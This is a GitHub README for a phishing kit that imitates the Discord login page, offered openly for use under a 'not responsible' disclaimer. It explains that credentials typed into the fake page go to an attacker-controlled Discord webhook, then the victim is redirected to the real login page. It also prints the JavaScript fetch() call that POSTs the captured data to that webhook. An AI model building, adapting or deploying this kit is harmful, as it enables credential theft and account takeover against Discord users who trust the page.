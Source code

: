 
# Discord Fake Login Page

This is a fake Discord login page, in HTML, CSS and Javascript.
I am in no way responsible for what you do with this code!

# Requirement
- Discord Webhook
I used discord's webhook api to allow transferring user information.

# Functionality
- Send the informations to discord

- Links like the registration page or the "I forgot my password" page do not work.
- When the user clicks on the login button, it will display an alert then redirect to the real discord login page, you can easily modify this by going to the script.js file which is located in the /en/ folder if you want the page to be in English or /fr/ if you want the page to be in French.

## Discord Webhook

#### Fetch

```txt
  fetch('https://discord.com/api/webhooks/ // url of your Webhook', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        })
```
#### More informations about discord webhook

```link
  https://discord.com/developers/docs/resources/webhook
```

## Warning !
#### I am in no way responsible for what you do with this code!

## Author

- Julus the developper, on Github
- m_julus, on Discord
